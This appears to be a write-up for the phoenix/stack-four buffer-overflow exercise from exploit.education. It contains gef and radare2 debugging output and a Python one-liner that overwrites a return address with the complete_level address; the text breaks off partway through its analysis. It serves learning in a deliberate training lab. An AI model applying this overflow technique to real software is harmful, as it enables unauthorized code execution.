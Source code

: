 ```

gef> bt
#0  0x00000000 in ?? ()
#1  0x0001058c in start_level ()
```
The crash happened in the last line below (`0x0001058c`).  But if you read the instruction at `0x00010584` it was trying to put something into register 0.  

```
0x00010584      0c009fe5       ldr r0, loc._d_12           ; [0x10598:4]=0x10620  <----
0x00010588      8bffffeb       bl sym.imp.printf           ; int printf(const char *format)
0x0001058c      0000a0e1       mov r0, r0
```
What was `0x10620`?
```
gef> x/s 0x10620
0x10620:	"and will be returning to %p\n"
```
If you re-run it with `79 x A` look at `r11`, it started to fill:
```
$r11 : 0x414141  
$r12 : 0x1       
$sp  : 0xfffefd80  →  0x00000000
$lr  : 0x0001058c  →  <start_level+44> nop ; (mov r0,  r0)
$pc  : 0x0
```
I used 76 x As and the offset of the `complete_level` function:
```
// Offset = 0x00010544
$ python -c 'print "A"*(76) + "\x44\x05\x01\x00"' | ./stack-four

───────────────────────────────────────────────────────────────────── stack ────
0xfffe0004│+0x0000: 0x00000000	 ← $sp
────────────────────────────────────────────────────────────── code:arm:ARM ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x0
```
Failed.
##### Answer
```
Breakpoint on: #0  0x0001058c in start_level ()
// Normal flow, no overflow 4 x As
gef> x $fp
0xfffefd74:	0x000105bc
```
We met that pointer value earlier, when we ran the code:

> Welcome to phoenix/stack-four, brought to you by https://exploit.education
> AAAA
> and will be returning to 0x105bc

It was trying to move back from the `start_Level` function to the `main` function.
```
[0x00010620]> pdf @main
/ (fcn) sym.main 48
// removed for brevity
|           0x000105b8      e8ffffeb       bl sym.start_level
|           0x000105bc      0030a0e3       mov r3, 0              <-- code is moving back here
|           0x000105c0      0300a0e1       mov r0, r3
|           0x000105c4      04d04be2       sub sp, fp, 4
\           0x000105c8      0088bde8       pop {fp, pc}
```
This was a perfect place to place the memory address I want to skip toward; the `complete_level` address.
```
// Overflowed with 80 x As
gef> x $fp
```